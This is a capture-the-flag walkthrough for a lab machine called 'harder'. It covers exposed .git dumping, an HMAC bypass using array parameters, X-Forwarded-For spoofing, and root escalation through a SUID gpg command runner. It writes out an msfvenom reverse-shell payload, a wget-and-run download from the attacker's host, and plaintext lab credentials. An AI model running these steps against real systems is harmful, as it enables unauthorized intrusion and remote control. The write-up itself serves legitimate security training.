

# harder

Real pentest findings combined.

The machine is completely inspired by real world pentest findings. Perhaps you will consider them very challenging but without any rabbit holes. Once you have a shell it is very important to know which underlying linux distribution is used and where certain configurations are located.

Hints to the initial foodhold: Look closely at every request. Re-scan all newly found web services/folders and may use some wordlists from seclists (https://tools.kali.org/password-attacks/seclists). Read the source with care.

# Hack the machine and obtain the user Flag (user.txt)

## Enumerating the services

A Nmap scan reveals 2 services on their standard ports: SSH (22) and HTTP (80).

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Error
~~~

## Web (80/tcp)

Accessing the web service leads to a 404 error page. Any directory leads to the 404. Let's analyze the request in BurpSuite.

Intercepting the response of our request to the main page (http://10.10.80.10) in BurpSuite discloses that the server expects the request to be sent to the `pwd.harder.local` virtual host:

~~~
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Wed, 19 Aug 2020 20:09:41 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.3.19
Set-Cookie: TestCookie=just+a+test+cookie; expires=Wed, 19-Aug-2020 21:09:41 GMT; Max-Age=3600; path=/; domain=pwd.harder.local; secure
Content-Length: 1985
~~~

## pwd.harder.local (virtual host)

Let's add this line to our `/etc/hosts` file:

~~~
10.10.80.10 pwd.harder.local
~~~

Now, accessing the main page leads to an authentication form:

```html
Cunknown@kali:/data/tmp$ curl -s http://pwd.harder.local/
<html><head><title>Harder Corp. - Password Manager</title>	<style>[REDACTED]</style></head><body>
<div class="wrapper"><div class="highlight"><div class="center">
<form class="pure-form pure-form-stacked" action="/index.php" method="post">
    <fieldset>
        <legend>Harder Corp. - Password Manager</legend>
        <input type="hidden" name="action" value="set_login">
        <!-- <label for="username"><strong>Username:</strong></label> -->
        <input id="username" type="text" name="user" placeholder="Enter Username" class="pure-input-1">
        <!-- <label for="password"><strong>Password:</strong></label> -->
        <input id="password" type="password" name="pass" placeholder="Enter Password" class="pure-input-1">
        <label for="remember" class="pure-checkbox">
            <input id="remember" name="remember" type="checkbox"> Remember this computer        </label>
        <button type="submit" class="pure-button pure-button-primary">Log in &rarr;</button>
    </fieldset>
</form>
</div></div></div>
</body></html>
```

Authenticating with `admin:admin` allows the access but a message is then displayed: `extra security in place. our source code will be reviewed soon ...`

## git directory

Scanning the web server with dirsearch against the `common.txt` dictionary reveals the existence of `/.git/HEAD`:

~~~
unknown@kali:/data/tmp$ /data/src/dirsearch/dirsearch.py -u http://pwd.harder.local -E -w /usr/share/wordlists/dirb/common.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 4614

Error Log: /data/src/dirsearch/logs/errors-20-08-19_22-31-11.log

Target: http://pwd.harder.local

[22:31:11] Starting: 
[22:31:12] 200 -   19KB - /
[22:31:12] 200 -   23B  - /.git/HEAD
[22:31:32] 200 -   19KB - /index.php

Task Completed
~~~

Let's use `gitdumper.sh` from [GitTools](https://github.com/internetwache/GitTools)

~~~
unknown@kali:/data/src/GitTools/Dumper$ ./gitdumper.sh http://pwd.harder.local/.git/ /data/tmp/files
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /data/tmp/files/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/93/99abe877c92db19e7fc122d2879b470d7d6a58
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/ad/68cc6e2a786c4e671a6a00d6f7066dc1a49fc3
[+] Downloaded: objects/04/7afea4868d8b4ce8e7d6ca9eec9c82e3fe2161
[+] Downloaded: objects/e3/361e96c0a9db20541033f254df272deeb9dba7
[+] Downloaded: objects/c6/66164d58b28325393533478750410d6bbdff53
[+] Downloaded: objects/aa/938abf60c64cdb2d37d699409f77427c1b3826
[+] Downloaded: objects/cd/a7930579f48816fac740e2404903995e0ff614
[+] Downloaded: objects/22/8694f875f20080e29788d7cc3b626272107462
[+] Downloaded: objects/66/428e37f6bfaac0b42ce66106bee0a5bdf94d4e
[+] Downloaded: objects/6e/1096eae64fede71a78e54999236553b75b3b65
[+] Downloaded: objects/be/c719ffb34ca3d424bd170df5f6f37050d8a91c
~~~

The logs disclose several commits:

~~~
unknown@kali:/data/tmp/files$ git log 
commit 9399abe877c92db19e7fc122d2879b470d7d6a58 (HEAD -> master)
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 18:12:23 2019 +0300

    add gitignore

commit 047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 18:11:32 2019 +0300

    add extra security

commit ad68cc6e2a786c4e671a6a00d6f7066dc1a49fc3
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 14:00:52 2019 +0300

    added index.php
~~~

Let's get a copy of the files.

~~~
unknown@kali:/data/tmp/files$ git checkout .
Updated 4 paths from the index
unknown@kali:/data/tmp/files$ ls -la
total 48
drwxr-xr-x 3 unknown unknown  4096 Aug 19 22:55 .
drwxr-xr-x 3 unknown unknown  4096 Aug 19 22:54 ..
-rw-r--r-- 1 unknown unknown 23820 Aug 19 22:55 auth.php
drwxr-xr-x 6 unknown unknown  4096 Aug 19 22:55 .git
-rw-r--r-- 1 unknown unknown    27 Aug 19 22:55 .gitignore
-rw-r--r-- 1 unknown unknown   431 Aug 19 22:55 hmac.php
-rw-r--r-- 1 unknown unknown   608 Aug 19 22:55 index.php
~~~

Unfortunately, it looks like 2 useful files are not available:

~~~
unknown@kali:/data/tmp/files$ cat .gitignore 
credentials.php
secret.php
~~~

As far as the `index.php` file, it includes several php files, including the ones we don't have due to the `.gitignore` file, and displays a table with a URL and user information in clear (this is obviously something we want to get):

```php
<?php
  session_start();
  require("auth.php");
  $login = new Login;
  $login->authorize();
  require("hmac.php");
  require("credentials.php");
?> 
  <table style="border: 1px solid;">
     <tr>
       <td style="border: 1px solid;">url</td>
       <td style="border: 1px solid;">username</td>
       <td style="border: 1px solid;">password (cleartext)</td>
     </tr>
     <tr>
       <td style="border: 1px solid;"><?php echo $creds[0]; ?></td>
       <td style="border: 1px solid;"><?php echo $creds[1]; ?></td>
       <td style="border: 1px solid;"><?php echo $creds[2]; ?></td>
     </tr>
   </table>
```

Now, let's analyze `hmac.php`:

```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

## Bypassing the hash_hmac PHP function

Below is the proto of the `hash_hmac` [PHP function](https://www.php.net/manual/en/function.hash-hmac.php):

~~~
=DESCRIPTION=

	hash_hmac — Generate a keyed hash value using the HMAC method


=PROTO=

	hash_hmac ( string $algo , string $data , string $key [, bool $raw_output = FALSE ] ) : string
Parameters


=OPTIONS=

	algo
	    Name of selected hashing algorithm (i.e. "md5", "sha256", "haval160,4", etc..) See hash_hmac_algos() for a list of supported algorithms.

	data
	    Message to be hashed.

	key
	    Shared secret key used for generating the HMAC variant of the message digest.

	raw_output
	    When set to TRUE, outputs raw binary data. FALSE outputs lowercase hexits.
~~~

We can hack the test defined in `hmac.php` by injecting the appropriate GET variables (`h`, `n` and `host`). The ultimate test will check that our `h` value is equal to `$hm`, which is itself defined as follows:

```php
$hm = hash_hmac('sha256', $_GET['host'], hash_hmac('sha256', $_GET['n'], $secret));
```

Searching on the Internet how to bypass `hash_hmac` leads to this post: https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up. It states that providing an array as second argument to the function will force it to return `false`. Let's test:

~~~
$ php -r "echo hash_hmac('sha256', Array(), 'secret')==false;"
PHP Warning:  hash_hmac() expects parameter 2 to be string, array given in Command line code on line 1
1
~~~

The function returned `1`, which confirms that we can take advantage of this vulnerability to pass an array for the `n` parameter. Let's compute the hash with the secret set to `false`:

~~~
$ php -r "echo hash_hmac('sha256', 'pwd.harder.local', false);"
5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf
~~~

Now, we'll send this request: http://pwd.harder.local?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local



Here is what we get:

url | username | password (cleartext)
---|---|---
http://shell.harder.local | evs | 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm


## shell.harder.local (virtual host)

We start by adding the virtual host to our `/etc/hosts` file which now contains the 2 virtual hosts:

~~~
10.10.84.103	pwd.harder.local	shell.harder.local
~~~

Browsing http://shell.harder.local leads to the same authentication form as previously, which we successfully pass with `evs:9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm`. Now, the message is: "Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed".

Let's intercept the request in BurpSuite and add a `X-Forwarded-For` variable set to something in the expected IP range:

~~~
POST /index.php HTTP/1.1
Host: shell.harder.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://shell.harder.local/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Connection: close
Cookie: PHPSESSID=21sppscro6foikfi7m788f79c0
X-Forwarded-For: 10.10.10.10
Upgrade-Insecure-Requests: 1

action=set_login&user=evs&pass=9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
~~~

We are now displayed with a form that allows to execute a command (make sure you keep intercepting the requests in BurpSuite to add the `X-Forwarded-For` parameter):


## Reverse shell

After trying several reverse shells in python, PHP and shell script without success, I eventually decided to run a reverse shell in metasploit to get a meterpreter.

~~~
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.9.0.54 LPORT=4444 -f elf > shell
~~~

Make the shell available via a python web server (`python3 -m http.server`) and force the target to download it via the following command: `wget http://10.9.0.54:8000/shell`.

Make the shell executable and run it by sending the following commands: `chmod +x shell && ./shell`

In Metasploit, enter the following commands:

~~~
msf> use exploit/multi/handler
msf> set PAYLOAD linux/x86/meterpreter/reverse_tcp
msf> set LHOST 10.9.0.54
msf> set LPORT 4444
msf> run
~~~

## User flag

We now have a meterpreter:

~~~
meterpreter > pwd
/www/shell
meterpreter > cd /home 
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
42755/rwxr-xr-x  4096  dir   2020-07-08 00:29:00 +0200  evs
42755/rwxr-xr-x  4096  dir   2020-07-08 00:28:58 +0200  www

meterpreter > cd evs
meterpreter > ls
Listing: /home/evs
==================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  33    fil   2020-07-08 00:29:00 +0200  user.txt

meterpreter > cat user.txt
7e88bf11a579dc5ed66cc798cbe49f76
~~~

Answer: `7e88bf11a579dc5ed66cc798cbe49f76`


# Escalate your privileges and get the root Flag (root.txt)

## Meterpreter to shell

From the meterpreter session, let's get a shell (just enter `shell`).

~~~
meterpreter> shell
$ cat /etc/issue
Welcome to Alpine Linux 3.12
Kernel \r on an \m (\l)
$ uname -a
Linux harder 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 Linux
~~~

Enumerating the files owned by `www` reveals the presence of an interesting file:

~~~
$ find / -type f -user www 2>/dev/null
/tmp/sess_utu0095om9rr89vk98njrm2t2t
/tmp/sess_hn2lgius2md63fqek2ch70j3np
/var/lib/nginx/html/50x.html
/var/lib/nginx/html/index.html
/etc/periodic/15min/evs-backup.sh  <======= Interesting!
/proc/10/task/10/fdinfo/0
/proc/10/task/10/fdinfo/1
/proc/10/task/10/fdinfo/2
/proc/10/task/10/fdinfo/4
/proc/10/task/10/fdinfo/5
[REDACTED]
~~~

This file provides us with credentials to connect as user "evs" over SSH.

~~~
cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
~~~

## SSH connection as user "evs"

Once connected over SSH, let's search for files owned by `root` with the SUID bit set:

~~~
harder:/tmp$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/local/bin/execute-crypted
~~~

This program references a shell script (`/usr/local/bin/run-crypted.sh`)

~~~
harder:/tmp$ strings /usr/local/bin/execute-crypted
[REDACTED]
/usr/local/bin/run-crypted.sh %s
[REDACTED]
~~~

The `/usr/local/bin/run-crypted.sh` shows the source code:

```sh
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

## Execute the program as root (SUID)

We can confirm that the program executes as root:

~~~
harder:/tmp$ /usr/local/bin/execute-crypted 
[*] Current User: root
[-] This program runs only commands which are encypted for root@harder.local using gpg.
[-] Create a file like this: echo -n whoami > command
[-] Encrypt the file and run the command: execute-crypted command.gpg
~~~

Let's search for the GPG root key.

~~~
harder:~$ find / -type f -name "root@harder.local*" 2>/dev/null
/var/backup/root@harder.local.pub
harder:~$ cat /var/backup/root@harder.local.pub 
-----BEGIN PGP PUBLIC KEY BLOCK-----

mDMEXwTf8RYJKwYBBAHaRw8BAQdAkJtb3UCYvPmb1/JyRPADF0uYjU42h7REPlOK
AbiN88i0IUFkbWluaXN0cmF0b3IgPHJvb3RAaGFyZGVyLmxvY2FsPoiQBBMWCAA4
FiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwMFCwkIBwIGFQoJCAsCBBYC
AwECHgECF4AACgkQyR1mFZRPaHSt8wD8CvJLt7qyCXuJZdOBPR+X7GI2dUg0DRRu
c5gXzwk3rMMA/0JK6ZwZCHObWjwX0oLc3jvOCgQiIdaPq1WqN9/fhLAKuDgEXwTf
8RIKKwYBBAGXVQEFAQEHQNa/To/VntzySOVdvOCW+iGscTLlnsjOmiGaaWvJG14O
AwEIB4h4BBgWCAAgFiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwwACgkQ
yR1mFZRPaHTMLQD/cqbV4dMvINa/KxATQDnbaln1Lg0jI9Jie39U44GKRIEBAJyi
+2AO+ERYahiVzkWwTEoUpjDJIv0cP/WVzfTvPk0D
=qaa6
-----END PGP PUBLIC KEY BLOCK-----
~~~

Luckily for us, there is a backup of the public key; let's import it:

~~~
harder:~$ gpg --import /var/backup/root@harder.local.pub 
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
~~~

## Root flag

Now, let's dump the content of the root flag:

~~~
harder:/tmp$ echo -n "cat /root/root.txt" > command
harder:/tmp$ gpg -r 6F99621E4D64B6AFCE56E864C91D6615944F6874 --encrypt command 
harder:/tmp$ execute-crypted command.gpg 
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
3a7bd72672889e0756b09f0566935a6c
~~~

Answer: `3a7bd72672889e0756b09f0566935a6c`
